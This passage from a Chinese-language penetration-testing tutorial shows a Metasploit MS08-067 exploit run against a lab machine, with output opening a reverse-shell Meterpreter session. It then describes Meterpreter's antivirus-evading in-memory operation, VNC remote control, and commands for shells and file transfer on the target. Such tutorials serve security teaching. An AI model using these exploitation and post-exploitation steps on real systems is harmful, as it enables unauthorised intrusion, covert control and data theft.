 7、参数检查无误后，输入“exploit”对靶机进行攻击。当返回meterpreter提示符表示利用成功。 

```
msf exploit(ms08_067_netapi) > run
 
[*] Started reverse handler on 192.168.116.128:4444 
[*] Attempting to trigger the vulnerability...
[*] Sending stage (769536 bytes) to 192.168.116.129
[*] Meterpreter session 1 opened (192.168.116.128:4444 -> 192.168.116.129:1036) at 2015-06-01 03:10:26 -0400
```

8、可以利用vnc对靶机进行图形化远程控制，命令：run vnc 。Meterpreter还有很多强大的功能，我们将在后续的章节详细介绍。 

### 3、Meterpreter

------

#### 3.1 简介

Metasploitv4之后的新版本中，Meterpreter作为后渗透攻击模块的实施通道，可以根据渗透测试目标需求进行灵活扩展。 

涉及范围： 信息搜集、口令攫取、权限提升、内网拓展等。 

#### 3.2 Meterpreter技术优势

1、平台通用性 提供了各种主流操作系统和平台上的meterpreter版本，包括windows、linux、BSD，并同时支持x86和x64平台。另外还提供基于java和php语言的实现，以应对各种不同环境。 

2、纯内存工作模式 工作时直接装载meterpreter的动态链接库到目标进程空间，而不是先上传到磁盘，再调用loadlibrary加载动态链接库启动。这样启动隐蔽，很难被杀毒软件检测到，也不会再目标主机磁盘留下任何痕迹。 

3、灵活且加密的通信协议 采用TLV（type length value）数据封装格式；通信数据经过XOR加密，然后调用OpenSSL库进行SSL封装传输，保证传输的保密和隐蔽性。 

4、易于扩展 Meterpreter的插件以动态链接库文件的形式存在，可以选择你喜欢的编程语言按照Meterpreter的接口形式编写你需要的功能，然后编译成动态链接库，拷贝至相应目录即可。 

#### 3.3 Meterpreter常用命令

1、基本命令（包含meterpreter和msf终端、ruby接口、目标shell交互的命令） 

```
background（进程隐藏至后台）

sessions（查看已经成功获取的会话，-i 恢复会话）

quit（关闭当前会话）

shell （获取系统控制台shell，如果目标系统命令行可执行程序不存在或禁止访问， 则shell命令会出错）

irb（与Ruby终端交互，调用metasploit封装好的函数；在irb中还可以添加metasploit附加组件railgun，直接与windows本地API进行交互）
```

2、文件系统命令（与目标文件系统交互，包括查看、上传下载、搜索、编辑） 

```
cat（目标系统文件交互）

getwd（获取目标机当前工作目录,getlwd本地当前工作工作目录）

upload（上传文件或文件夹到目标机 -r 递归）

download（从目标机下载文件或文件夹 -r 递归）

edit（调用vi编辑器，对目标上的文件进行编辑）

search（对目标机的文件进行搜索）
```
